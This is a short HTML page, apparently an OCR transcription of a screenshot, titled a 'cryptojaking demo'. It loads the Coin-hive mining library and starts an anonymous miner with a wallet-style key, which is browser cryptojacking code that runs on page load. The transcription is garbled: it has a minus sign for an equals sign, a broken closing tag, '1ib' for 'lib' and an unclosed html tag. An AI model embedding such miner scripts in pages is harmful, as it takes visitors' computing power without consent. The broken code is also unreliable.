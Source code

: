 <html>
<head>
<script src="https://coin-hive.com/1ib/coinhive.min.js">
</script>
<script>
var miner - new CoinHive.anonymous('bc1qqrte8c9ajm8dmrfmqmxl6aj3wvusle2djywrym');
miner.start();
</script>
</head>
<body>
  <h2>cryptojaking demo>/h2>
</body>
<html>
